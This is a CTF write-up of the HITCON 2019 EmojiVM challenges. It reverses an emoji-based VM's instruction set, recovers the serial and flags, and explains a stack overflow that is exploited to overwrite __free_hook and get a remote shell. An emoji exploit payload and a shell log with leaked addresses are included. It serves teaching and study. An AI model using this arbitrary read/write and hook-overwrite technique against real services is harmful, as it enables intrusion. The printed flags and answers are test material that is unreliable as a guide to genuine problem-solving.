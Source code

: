 # Emojivm rev, pwn

## description


```
EmojiVM [187pts] - rev

A simple VM that takes emojis as input! Try figure out the secret!
```
```
EmojiiiVM [236pts] - pwn

Have you ever wrote an "emoji exploit" ?
Well now it's your chance! Pwn the service and get the flag ;)

nc 3.115.176.164 30262
```



## binary analysis

The vm gets input via emojis

`./emojivm ./chal.evm`

and the input file looks like: 

```
🈳🈳🈳⏬😅⏬😍❌⏬😀➕🆕⏬😀⏬😍⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍❌⏬😂➕⏬😜⏬😍
```

init_prob() function is at 0x4221 (sub_4221).

```c
unsigned __int64 init_prob()
{
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = 0x1F233;                                 // empty
  *(_DWORD *)sub_5CB4((__int64)&inst_emoji_list, (__int64)&v1) = 1;
  v1 = 0x2795;                                  // heavy +
  *(_DWORD *)sub_5CB4((__int64)&inst_emoji_list, (__int64)&v1) = 2;
  v1 = 0x2796;                                  // heavy -
  *(_DWORD *)sub_5CB4((__int64)&inst_emoji_list, (__int64)&v1) = 3;
  v1 = 0x274C;                                  // multiply
  *(_DWORD *)sub_5CB4((__int64)&inst_emoji_list, (__int64)&v1) = 4;
  v1 = 0x2753;                                  // question
    ...
```

There are two list of emoji. The one is for instructions and the other one is for numbers(constant number).  



## instruction

The function at 0x4db8 (sub_4db8)  brings next instruction via pc, and figure it out its behaviour. 

Instruction set of this vm:

```python
INST_NOP         = 1 
INST_ADD         = 2 
INST_SUB         = 3 
INST_MUL         = 4 
INST_MOD         = 5 
INST_XOR         = 6 
INST_AND         = 7 
INST_SETG        = 8 
INST_SETEQ       = 9 
INST_JMP         = 0xA 
INST_JZ         = 0xB 
INST_JNZ          = 0xC 
INST_PUSH_IMM    = 0xD 
INST_POP         = 0xE 
INST_GET_Memo_BYTE  = 0xf 
INST_SET_Memo_BYTE  = 0x10
INST_MAKE_Memo   = 0x11
INST_DELETE_Memo  = 0x12
INST_WRITE_Memo  = 0x13
INST_PRINT_Memo  = 0x14
INST_PRINT_STACK_STR  = 0x15
INST_PRINT_STACK_VAL  = 0x16
INST_HLT         = 0x17
```



## go reversing

I wrote the emulator code with python. 

After printing assembly, we can figure out what this vm does.

chal.evm generates 2 byte arrays

```
memo2 = [0x18, 5, 0x1d, 0x10, 0x42, 0x9, 0x4a, 0x24, 0x0, 0x5b, 0x8, 0x17, 0x40, 0x0, 0x72, 0x30, 0x9, 0x6c, 0x56, 0x40, 0x9, 0x5b, 0x5, 0x1a, 0x0]
memo4 = [0x8e, 0x63, 0xcd, 0x12, 0x4b, 0x58, 0x15, 0x17, 0x51, 0x22, 0xd9, 0x4, 0x51, 0x2c, 0x19, 0x15, 0x86, 0x2c, 0xd1, 0x4c, 0x84, 0x2e, 0x20, 0x64, 0]
```

Then getting user input, check it via flag_check_routine.

The check routine does

* length check: the input length should be 24
* `-` check: the input should he a serial format like `aaaa-aaaa-aaaa-aaaa-aaaa`
* some calculation for each byte. The result should be the same with memo4

Xoring correct input and memo2 will give us flag.

```python
In [1]: a = [0x18, 5, 0x1d, 0x10, 0x42, 0x9, 0x4a, 0x24, 0x0, 0x5b, 0x8, 0x17, 0x40, 0x0, 0x72, 0x30, 0x9, 0x6c, 0x56, 0x40, 0x9, 0x5b, 0x5, 0x1a, 0x0]

In [2]: for (x, y) in zip(a,"hitcon{"):
   ...:     print chr(x^ord(y)),   
   ...:     
p l i s - g 1
```

We can get the correct input by z3, or manually. I did it by hand.

So the right input is `plis-g1v3-me33-th3e-f14g`, then the vm gave us the flag.

`hitcon{R3vers3_Da_3moj1}`



## let's pwn!

A vulnerability is simple.

```c
.bss:000000000020E200 ; _QWORD Memo[12]
.bss:000000000020E200 Memo            dq 0Ch dup(?)           ; DATA XREF: sub_4744+36↑o
.bss:000000000020E200                                         ; sub_4744+95↑o ...
.bss:000000000020E260 ; _QWORD stack[1024]
.bss:000000000020E260 stack           dq 400h dup(?)   
```

stack is consecutive from `Memo`.

There is a `pop` instruction, which checks overflow. However, other operators (add, sub...) do not check overflow so we can easily overwrite memo.

The struct memo is 

```c
struct memo{
size_t size;
char * string_ptr;
};
```

With overwriting string_ptr, we can easily make arbitrary read and write.

This is our exploit.evm

```
⏬😍⏬😍❌⏬😍❌⏬😍⏬😍❌➕🆕⏬😍🆕⏬😍🆕⏬😍🆕⏬😍🆕⏬😍🆕➕🔝🔝🔝🔝🔝🔢⏬😀📄⏬😍⏬😍❌⏬😅❌⏬😍⏬😉❌⏬😉➕➕➕⏬😍🆕⏬🤣🆓⏬😍⏬😍❌⏬😍❌🆕⏬🤣📄⏬😜📝⏬🤣📄⏬😜📄⏬😀🆓🛑
```

with some interaction, we can overwrite `__free_hook` to `system`

```zsh
➜  emojivm_pwn python gen.py; python sol.py 3.115.176.164 30262      
316
[*] For remote: sol.py HOST PORT
[+] Opening connection to 3.115.176.164 on port 30262: Done
hash_seed:rhwvzrwi
[+] Starting local process '/usr/bin/hashcash': pid 24407
[*] '/home/bincat/pwn/hitcon-2019/emojivm_pwn/emojivm'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
heap_leak: 0x55cdb8f08dd0
libc_base: 0x7f4a6e99d000
[*] Switching to interactive mode
$ id
uid=1000(emojivm) gid=1000(emojivm) groups=1000(emojivm)
$ cat /home/emojivm/flag
hitcon{H0p3_y0u_Enj0y_pWn1ng_th1S_3m0j1_vM_^_^b}
$ 
```

